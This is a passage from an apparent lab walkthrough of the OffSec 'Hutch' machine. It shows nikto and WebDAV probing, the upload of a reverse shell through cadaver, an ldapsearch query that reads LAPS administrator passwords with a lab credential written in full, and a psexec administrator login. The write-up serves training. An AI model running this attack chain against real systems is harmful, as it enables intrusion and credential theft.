 ![](../attachment/2d632a6d8df2ab3133913357ba404836.png)
We can check nikto:
```
nikto -h http://192.168.192.122
```

Trying cadaver:
```
cadaver http://192.168.192.122/
```
![](../attachment/df76260d4bb7cbc3eeb9f7ca68bdeed8.png)
We can login using fmcsorley's creds

Now we can upload a reverse shell.
![](../attachment/102cb866ca13c2192f69c9917f725e56.png)
Access the file using http://192.168.192.122/shell.aspx


Now we get a reverse shell:
![](../attachment/c554ea59c520bc52edd7e3b0fea6a45d.png)

Now checking at `C:\Program Files`![](../attachment/88277d8b28b5fa9b55201a12fb94c5d1.png)
LAPS is installed.

Now to get the admin password
```
ldapsearch -x -H ldap://192.168.192.122 -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b 'dc=hutch,dc=offsec' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```
We get the admin password:
![](../attachment/06c0f60cd18ea908d6d9fd6a163079f0.png)

Now we can login with psexec:
```
psexec.py administrator@192.168.192.122
```
![](../attachment/f3e954f6de25529225ce1b285116f3e4.png)